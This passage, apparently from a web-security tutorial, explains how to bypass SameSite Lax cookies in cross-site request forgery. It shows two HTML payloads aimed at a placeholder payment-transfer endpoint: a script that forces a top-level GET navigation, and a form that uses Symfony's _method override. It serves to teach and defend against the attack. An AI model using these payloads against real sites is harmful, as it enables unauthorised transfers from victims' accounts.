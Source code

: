 In practice, servers do not always strictly distinguish whether they receive a `GET` or `POST` request to a particular `endpoint`, even if a form submission is expected. If the `SameSite Lax` session cookie restriction mode is used (either explicitly or due to the browser's default settings), we can still perform a CSRF attack by prompting the victim's browser to send a `GET` request.
As long as the request is made at the top navigation level, the browser will continue to include the victim's session `cookie`. Here is one of the simplest ways to do this:
```HTML
<script>
    document.location = 'https://vulnerable-website.com/account/transfer-payment?recipient=hacker&amount=1000000';
</script>
```
---
Even if a normal `GET` request is not allowed, some frameworks provide the ability to override the method specified in the query string. For example, `Symfony` supports a `_method` parameter in forms that takes precedence over the regular method when routing:
```HTML
<form action="https://vulnerable-website.com/account/transfer-payment" method="POST">
    <input type="hidden" name="_method" value="GET">
    <input type="hidden" name="recipient" value="hacker">
    <input type="hidden" name="amount" value="1000000">
</form>
```
Other frameworks also support various similar parameters.